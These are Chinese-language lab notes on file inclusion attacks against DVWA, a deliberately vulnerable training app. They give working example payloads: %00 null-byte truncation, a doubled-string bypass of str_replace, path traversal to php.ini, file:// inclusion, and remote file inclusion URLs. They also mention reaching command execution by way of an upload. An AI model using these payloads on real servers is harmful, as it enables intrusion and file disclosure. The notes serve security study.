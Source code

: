 ### 参考资料

[DVWA-1.9全级别教程之File Inclusion](https://www.freebuf.com/articles/web/119150.html)

## dvwa 文件包含

**php 文件包含有一个解析漏洞，它不会识别是不是真正的php程序，也就是说只要你包含了，它都当PHP来解析，所以图片马就是图片中有代码，这样的道理还会有zip马等等**


php版本小于5.3.24的服务器中，可以在文件名中使用%00进行截断，也就是说文件名中%00后的内容不会被识别

也就是说```php.ini```和```php.ini%0012.php``` 是等价的。

使用%00截断可以绕过某些过滤规则，例如要求page参数的后缀必须为php，这时链接A会读取失败，而链接B可以绕过规则成功读取。




1.本地文件包含

(1) 绝对路径

(2) 相对路径

str_replace函数是极其不安全的，因为可以使用双写绕过替换规则

例如```page=hthttp://tp://192.168.5.12/phpinfo.txt```时，str_replace函数会将```http://删除，于是page=http://192.168.5.12/phpinfo.txt```，成功执行远程命令。

因为替换的只是“../”、“..\”，所以对采用绝对路径的方式包含文件是不会受到任何限制的。

```http://192.168.255.151:8081/DVWA-master/vulnerabilities/fi/page=…/./…/./…/./…/./…/./…/./…/./…/./…/./…/./xampp/htdocs/dvwa/php.ini```

```http://192.168.153.130/dvwa/vulnerabilities/fi/page=C:/xampp/htdocs/dvwa/php.ini```

(3) file协议包含：

```http://localhost:808/DVWA-master/vulnerabilities/fi/?page=file:///E:/software/phpstudy/WWW/phpinfo.php```

至于执行任意命令，需要配合文件上传漏洞利用。首先需要上传一个内容为php的文件，然后再利用file协议去包含上传文件（需要知道上传文件的绝对路径），从而实现任意命令执行。

2.远程文件包含


需要 allow\_url\_fopen与allow\_url\_include

```http://192.168.255.151:8081/DVWA-master/vulnerabilities/fi/?page=http://192.168.0.103:808/phpinfo.php```

<br>

Impossible级别的代码使用了白名单机制进行防护